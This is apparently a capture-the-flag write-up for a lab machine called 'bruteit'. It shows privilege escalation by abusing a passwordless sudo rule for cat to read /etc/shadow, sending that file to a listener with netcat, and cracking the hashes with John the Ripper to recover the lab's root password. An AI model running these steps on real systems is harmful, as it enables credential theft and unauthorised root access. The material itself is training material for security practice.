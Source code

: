 root passwd: football
****

I'm ssh'ed into john

`id`
```
uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
```
he's in sudoers

`sudo -l`
```
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
he can run `cat` with sudo, without passwd!

`sudo cat /etc/shadow > ~/john`
listener:
`nc -lvp port > john_shadow`
sender:
`nc -vn listener_ip port < john`

`john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt john_shadow`
```
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
```